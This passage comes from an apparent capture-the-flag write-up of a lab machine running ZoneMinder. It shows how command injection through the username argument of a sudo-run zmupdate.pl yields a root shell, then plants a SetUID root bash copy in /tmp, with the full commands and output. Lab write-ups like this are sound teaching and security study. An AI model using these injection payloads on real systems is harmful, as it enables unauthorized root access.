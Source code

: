 There’s a couple other blocks of code that I don’t really care about, and then this option put to the user:

```

    print("\nDo you wish to take a backup of your database prior to upgrading?\nThis may result in a large file in /tmp/zm if you have a lot of events.\nPress 'y' for a backup or 'n' to continue : ");
    my $response = <STDIN>;
    chomp($response);
    while ( $response !~ /^[yYnN]$/ ) {
      print("Please press 'y' for a backup or 'n' to continue only : ");
      $response = <STDIN>;
      chomp($response);
    }

    if ( $response =~ /^[yY]$/ ) {
      my ( $host, $portOrSocket ) = ( $Config{ZM_DB_HOST} =~ /^([^:]+)(?::(.+))?$/ );
      my $command = 'mysqldump';

```

I’ll need to say yes here to get to the `qx` call on line 432 (though it turns out that even with no I’ll still hit the other call to `qx` and the same injection works).

#### Exploit

With all of this together, I’ll pass in a user name with `$([cmd])` that will then get passed to `qx` and run by the OS. I’ll have it create another SetUID/SetGID `bash`. I’ll need to give a version that isn’t the current (which happens to be 1.36.32):

```
-bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(/bin/bash)'

Initiating database upgrade to version 1.36.32 from version 10

WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
root@surveillance:/usr/bin#

```

The result is a shell as root! And the root flag:

```
-bash-5.1$ sudo /usr/bin/zmupdate.pl --version 10 -u '$(cp /bin/bash /tmp/0xdfroot; chown root:root /tmp/0xdfroot; chmod 6777 /tmp/0xdfroot)'

Initiating database upgrade to version 1.36.32 from version 10

WARNING - You have specified an upgrade from version 10 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : y
Creating backup to /tmp/zm/zm-10.dump. This may take several minutes.
mysqldump: Got error: 1698: "Access denied for user '-pZoneMinderPassword2023'@'localhost'" when trying to connect
Output: 
```
